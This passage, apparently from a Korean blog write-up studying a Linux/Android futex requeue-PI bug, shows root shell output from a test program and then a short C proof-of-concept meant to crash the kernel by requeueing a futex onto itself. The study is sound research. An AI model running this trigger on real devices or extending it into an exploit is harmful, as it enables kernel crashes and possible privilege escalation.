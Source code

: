 실행해보면, 
``` sh
root@generic:/data/local/tmp # ./requeue_pi
main: futex_lock_pi() mtx...
main: ret = 0
main: sleep...
.
.
.
.
.
main: pthread_create thread_proc_1...
main: sleep...
.
thread#1: futex_wait_requeue_pi(&cond,&mtx)...
.
.
.
.
main: futex_cmp_requeue_pi(&cond,&mtx,cond)...
main: ret = 1
main: sleep...
.
.
.
.
.
main: futex_unlock_pi() mtx...
main: ret = 0
main: sleep...
.
thread#1: resume execution, ret = 0
thread#1: return...
.
.
.
.
.
root@generic:/data/local/tmp #
```

`cond` waiter queue 에 들어가서 wait 하고 있으면서, `mtx` 로 이사갈 준비를 하고 있다. `FUTEX_CMP_REQUEUE_PI` 로 이사를 간다. mtx 가 다른 thread 에 owned 되고 있기 때문에 계속 waiter queue 에 들어가있다가, `FUTEX_UNLOCK_PI` 로 free 해지면서, lock 을 acquire 하고, execution 을 시작한다.

#### PoC

이제 pthread_cond_wait() 를 흉내낸 코드를 고쳐서, 커널 패닉을 일으켜본다. `FUTEX_WAIT_REQUEUE_PI` 와 `FUTEX_CMP_REQUEUE_PI` 를 결합. blog.nativeflow.com 을 주로 참조하였다.

``` c
static void *thread_proc(void *arg)
{
    futex_wait_requeue_pi(&cond,&mtx);
    sleep(10);
    return NULL;
}
int main(int ac,char**av)
{
    futex_lock_pi(&mtx);
    pthread_create(&t1,NULL,thread_proc,NULL);
    sleep(3);
    futex_cmp_requeue_pi(&cond,&mtx,cond);
    mtx = 0;
    futex_cmp_requeue_pi(&mtx,&mtx,mtx);
}
```